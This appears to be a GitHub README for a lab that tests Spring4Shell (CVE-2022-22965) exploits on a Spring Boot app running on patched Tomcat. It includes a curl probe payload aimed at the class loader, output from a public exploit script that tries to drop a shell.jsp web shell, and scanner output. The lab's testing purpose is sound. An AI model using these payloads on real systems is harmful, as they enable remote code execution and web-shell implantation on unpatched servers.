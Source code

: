 # Lab 2: Partially vulnerable deployment

Lab to test poc exploit on vulnerable spring boot version 2.6.3 deployed on fixed tomcat version 8.5.78 with open-jdk 11

```js
Tomcat version: 8.5.78
openJDK: 11
Spring Boot: 2.6.3
```

## How to deploy?

```bash
$ docker build . -t sp4s-tomcat8.5.78-jdk11-spb2.6.3 && docker run -p 8001:8080 sp4s-tomcat8.5.78-jdk11-spb2.6.3
```

You can access the application at http://localhost:8001/helloworld/greeting

## Test if application is vulnerable

### Using curl 

Source: https://twitter.com/RandoriAttack/status/1509298490106593283

If application is vulnerable it will return HTTP 400 code.

Original POC
```bash
$ curl host:port/path?class.module.classLoader.URLs%5B0%5D=0
```

Since our lab application endpoint accepts data from POST request we will send payload in body

```bash
$ curl -i http://localhost:8001/helloworld/greeting -d class.module.classLoader.URLs%5B0%5D=0
HTTP/1.1 400 
Content-Type: application/json
Date: Sun, 17 Apr 2022 19:55:40 GMT
Connection: close
Content-Length: 110

{"timestamp":"2022-04-17T19:55:40.760+00:00","status":400,"error":"Bad Request","path":"/helloworld/greeting"}
```

400 response indicates that application is vulnerable but is it exploitable? let's try to exploit it using another exploit poc

### POC 2

https://github.com/BobTheShoplifter/Spring4Shell-POC

```bash
$ python exploit.py --url http://localhost:8001/helloworld/greeting
[*] Resetting Log Variables.
[*] Response code: 500
[*] Modifying Log Configurations
[*] Response code: 500
[*] Response Code: 200
[*] Resetting Log Variables.
[*] Response code: 500
[+] Exploit completed
[+] Check your target for a shell
[+] File: shell.jsp
[+] Shell should be at: http://localhost.com:8001/shell.jsp?cmd=id
```

It gives 500 error when trying to upload the shell because of fixed tomcat version.


### POC 3
https://github.com/fullhunt/spring4shell-scan

```bash
$ python spring4shell-scan.py --url http://localhost:8001/helloworld/greeting
[•] CVE-2022-22965 - Spring4Shell RCE Scanner
[•] Scanner provided by FullHunt.io - The Next-Gen Attack Surface Management Platform.
[•] Secure your External Attack Surface with FullHunt.io.
[•] URL: http://localhost:8001/helloworld/greeting
[%] Checking for Spring4Shell RCE CVE-2022-22965.
[•] URL: http://localhost:8001/helloworld/greeting | PAYLOAD: class.module.classLoader[ol38bo1]=ol38bo1
[!!!] Target Affected (CVE-2022-22965)
[!] Total Vulnerable Hosts: 1
[!] http://localhost:8001/helloworld/greeting
```

Again similar results exploit poc suggests application is vulnerable which it is but because tomcat version is fixed exploit didn't worked

